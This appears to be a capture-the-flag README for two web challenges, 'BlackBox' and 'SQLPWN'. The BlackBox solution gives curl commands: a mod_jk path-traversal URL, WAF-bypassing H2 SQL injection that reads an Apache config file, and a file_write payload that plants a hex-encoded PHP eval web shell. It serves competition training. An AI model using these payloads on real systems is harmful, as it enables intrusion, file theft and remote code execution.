 
## **BlackBox**

Solved: **0 / 12**  
Difficulty: **★★★★**  
Tag: **GrayBox**, **PHP**, **JAVA**, **mod_jk**, **H2**, **SQL Injection**, **WAF**  

#### Idea  

* Multilayered architecture vulnerability  
* Default and up to date mod_jk leads to directory travesal  
* Bypass WAF by incorrect usage of BASE64 and URLENCODE  
* SQL Injection on H2 Database  
* Execute Code by using H2 SQL Injection  

#### Source Code  

* [here](wctf-2016/BlackBox)  

#### Solution  

* Get source code  
   ```text
   http://1.2.3.4/login/..;/
   ```

* Review code and find a way to bypass WAF  
   ```bash
   $ curl "http://1.2.3.4/news/?id=1~~~~' and 1=2 union select null,null,version(),null--"
   $ curl "http://1.2.3.4/news/?id=1~~~~' and 1=2 union select null,null,file_read('/etc/apache2/sites-enabled/000-default.conf'),null--"
   ```  

* Write shell  
    ```bash
    $ curl "http://1.2.3.4/news/?id=1~~~~' and 1=2 union select null,null,file_write('3c3f706870206576616c28245f504f53545b6363635d293b3f3e', '/www/write_shell_here_=P/.a.php'),null--"
    $ curl "http://1.2.3.4/write_shell_here_=P/.a.php" -d 'phpinfo();'
    ```

#### Write Ups  

    TBD



## **SQLPWN**  

Solved: **0 / ??**  
Difficulty: **★★★**  
Tag: **WhiteBox**, **PHP**, **SQL Injection**, **LFI**, **Race Condition**  

#### Idea  

* One-byte off SQL Injection  
* Race Condition  
* Local file inclusion with PHP session  

